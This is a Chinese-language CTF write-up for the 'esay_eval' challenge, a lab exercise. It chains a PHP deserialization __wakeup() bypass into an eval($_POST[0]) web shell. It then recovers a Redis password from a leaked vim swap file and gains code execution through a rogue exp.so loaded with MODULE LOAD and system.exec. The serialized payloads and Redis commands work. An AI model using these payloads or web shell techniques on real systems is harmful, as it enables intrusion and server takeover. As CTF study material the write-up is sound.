redis 主从复制 rce 和 题目复现：[https://blog.csdn.net/qq\_41891666/article/details/107103116?spm=1001.2101.3001.6650.2&utm\_medium=distribute.pc\_relevant.none-task-blog-2%7Edefault%7ECTRLIST%7ERate-2-107103116-blog-129238575.235%5Ev38%5Epc\_relevant\_sort&depth\_1-utm\_source=distribute.pc\_relevant.none-task-blog-2%7Edefault%7ECTRLIST%7ERate-2-107103116-blog-129238575.235%5Ev38%5Epc\_relevant\_sort](https://blog.csdn.net/qq_41891666/article/details/107103116?spm=1001.2101.3001.6650.2&utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7ECTRLIST%7ERate-2-107103116-blog-129238575.235%5Ev38%5Epc_relevant_sort&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7ECTRLIST%7ERate-2-107103116-blog-129238575.235%5Ev38%5Epc_relevant_sort)

redis未授权访问致远程植入挖矿脚本（防御篇）：[https://mp.weixin.qq.com/s/eUTZsGUGSO0AeBUaxq4Q2w](https://mp.weixin.qq.com/s/eUTZsGUGSO0AeBUaxq4Q2w)

#### 例题：\[天翼杯 2021\]esay\_eval

考点

1.  **php反序列化绕过\_\_wakeup()魔术方法**
2.  **利用Redis主从复制漏洞RCE**

源码

```plain
<?php
class A{
    public $code = "";
    function __call($method,$args){
        eval($this->code);

    }
    function __wakeup(){
        $this->code = "";
    }
}

class B{
    function __destruct(){
        echo $this->a->a();
    }
}
if(isset($_REQUEST['poc'])){
    preg_match_all('/"[BA]":(.*?):/s',$_REQUEST['poc'],$ret);
    if (isset($ret[1])) {
        foreach ($ret[1] as $i) {
            if(intval($i)!==1){
                exit("you want to bypass wakeup ? no !");
            }
        }
        unserialize($_REQUEST['poc']);    
    }


}else{
    highlight_file(__FILE__);
}
```

**代码审计**

要想实现代码执行，需要触发A类的 **call()方法中的eval语句，** call方法需要被B类中的\_\_destruct()方法触发。

> 但是 **wakeup 函数会在这个类初始化之前触发，** wakeup 函数触发后，`code`变量就会变成空字符串，将无法执行代码，因此要绕过 \_\_wakeup()

-   绕过 **wakeup()：当对象属性个数大于真实对象属性个数时跳过\`**wakeup()\`的执行
    
    > 但`/"[BA]":(.*?):/s`这段正则匹配，不能直接修改属性个数
    
    **payload 1** ：类名不区分大小写，利用这个性质可以让正则匹配不到而失去限制作用
    
    ```plain
    <?php
    class a
    {
        public $code = "phpinfo();";
    }
    class b{
        public $a;
    }
    $a = new a();
    $b = new b();
    $b->a = $a;
    echo(serialize($b));
    // O:1:"b":1:{s:1:"a";O:1:"a":1:{s:4:"code";s:10:"phpinfo();";}}
    // 修改后 O:1:"b":1:{s:1:"a";O:1:"a":2:{s:4:"code";s:10:"phpinfo();";}}
    ```
    
    **payload 2** ：通过加一个属性，并把序列化后字符串对象属性个数改为1，让对象属性个数大于真实属性个数即可
    
    ```plain
    <?php
    class A
    {
        public $code = "phpinfo();";
    }
    class B{
        public $a;
        public $b;
    }
    $a = new A();
    $b = new B();
    $b->a = $a;
    echo(serialize($b));
    //O:1:"B":2:{s:1:"a";O:1:"A":1:{s:4:"code";s:10:"phpinfo();";}s:1:"b";N;}
    //修改后 O:1:"B":1:{s:1:"a";O:1:"A":1:{s:4:"code";s:10:"phpinfo();";}s:1:"b";N;}
    ```
    
    然后就可以看到 phpinfo 的内容，查看**disable\_functions**那一栏可以发现禁用了很多函数，想要直接RCE非常困难，（但是`$_POST["cmd"]`没被过滤），可以考虑连上蚁剑。
    

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118162607-1f0c2f98-85ec-1.png)

**payload**

```plain
?poc=O:1:"B":1:{s:1:"a";O:1:"a":2:{s:4:"code";s:16:"eval($_POST[0]);";}}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118162623-28e21aa0-85ec-1.png)

连接蚁剑后发现了其他目录不可访问，因为设置了`open_basedir`，（即PHP设置中为了防御PHP跨目录进行文件（目录）读写的方法）。在phpinfo中查看 open\_basedir 的目录，发现`/tmp`也允许读写。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118162638-31d4257c-85ec-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118162648-37687b46-85ec-1.png)

本目录下有一个`.swp`的 vim 泄露文件，尝试下载下来修复

> vi -r config.php

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118162659-3e0f85c0-85ec-1.png)

> vim缓存泄露：
> 
> 在开发人员使用 vim 编辑器 编辑文本时，系统会自动生成一个备份文件，当编辑完成后，保存时，原文件会更新，备份文件会被自动删除。
> 
> 但是，当编辑操作意外终止时，这个备份文件就会保留，如果多次编辑文件都意外退出，备份文件并不会覆盖，而是以 swp、swo、swn 等其他格式，依次备份。
> 
> 默认情况下其格式为：.<filename>.swp</filename>
> 
> 以下是一些常见的Vim插件和它们可能创建的缓存文件格式：
> 
> -   cscope: .cscope.out.<pid></pid>
> -   ctags: tags
> -   git: .git/index.lock
> -   LintHub: .conda/locks/python.interpreter.lock (对于conda环境)

进入查看发现了Redis服务的密码，数据库名、密码、用户名和主机名，很容易想到是**利用Redis提权**

下载并加载蚁剑Redis插件([https://github.com/Medicean/AS\_Redis)并连接Redis服务，向\`/var/www/html\`（或者\`/tmp/\`）目录上传恶意\`.so\`文件（https://github.com/Dliv3/redis-rogue-server）](https://github.com/Medicean/AS_Redis)%E5%B9%B6%E8%BF%9E%E6%8E%A5Redis%E6%9C%8D%E5%8A%A1%EF%BC%8C%E5%90%91%60/var/www/html%60%EF%BC%88%E6%88%96%E8%80%85%60/tmp/%60%EF%BC%89%E7%9B%AE%E5%BD%95%E4%B8%8A%E4%BC%A0%E6%81%B6%E6%84%8F%60.so%60%E6%96%87%E4%BB%B6%EF%BC%88https://github.com/Dliv3/redis-rogue-server%EF%BC%89)

> Redis 中的 exp.so 文件通常被用作 Redis 提权的一种方式。这个文件是一个 Redis 模块，它可以在 Redis 服务器中执行任意代码。
> 
> Redis 模块是一种可插拔的扩展，它允许用户在 Redis 服务器中添加新的功能。exp.so 文件是一个 Redis 模块，它提供了一些命令和功能，可以让攻击者在 Redis 服务器中执行任意代码，从而获得服务器的控制权。
> 
> 在 Redis 提权攻击中，攻击者通常会利用 Redis 的漏洞或者弱密码，获取 Redis 服务器的访问权限。一旦攻击者获得了访问权限，他们就可以上传 exp.so 文件到 Redis 服务器中，并使用 Redis 的 module load 命令加载这个文件。这个文件会在 Redis 服务器中执行任意代码，从而让攻击者获得服务器的控制权。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118162714-46bf20b8-85ec-1.png)

进入Redis服务

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118162723-4c1caaee-85ec-1.png)

输入刚刚泄露的Redis密码，连接成功

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118162740-564da928-85ec-1.png)

打开命令行，测试连接

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118162754-5efe4578-85ec-1.png)

使用`module load`加载上传的文件即可提权成功

> MODULE LOAD /var/www/html/exp.so
> 
> system.exec "ls /"
> 
> system.exec "cat /flagaasdbjanssctf"

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118162806-663ece02-85ec-1.png)

> **姿势 2**
> 
> 这种姿势是**利用蚁剑的绕过 disable\_function 插件**打穿，下载安装插件（[https://github.com/Medicean/as\_bypass\_php\_disable\_functions）后加载，选择模式时选择后面两个模式其中一个即可，（其他模式因为](https://github.com/Medicean/as_bypass_php_disable_functions%EF%BC%89%E5%90%8E%E5%8A%A0%E8%BD%BD%EF%BC%8C%E9%80%89%E6%8B%A9%E6%A8%A1%E5%BC%8F%E6%97%B6%E9%80%89%E6%8B%A9%E5%90%8E%E9%9D%A2%E4%B8%A4%E4%B8%AA%E6%A8%A1%E5%BC%8F%E5%85%B6%E4%B8%AD%E4%B8%80%E4%B8%AA%E5%8D%B3%E5%8F%AF%EF%BC%8C%EF%BC%88%E5%85%B6%E4%BB%96%E6%A8%A1%E5%BC%8F%E5%9B%A0%E4%B8%BA) php 版本不符、服务不支持等原因而不适用）
> 
> [](https://xzfile.aliyuncs.com/media/upload/picture/20231118162826-7236186e-85ec-1.png)
> 
> 连接后也能实现越权，拿到flag
> 
> [](https://xzfile.aliyuncs.com/media/upload/picture/20231118162850-8076bd20-85ec-1.png)
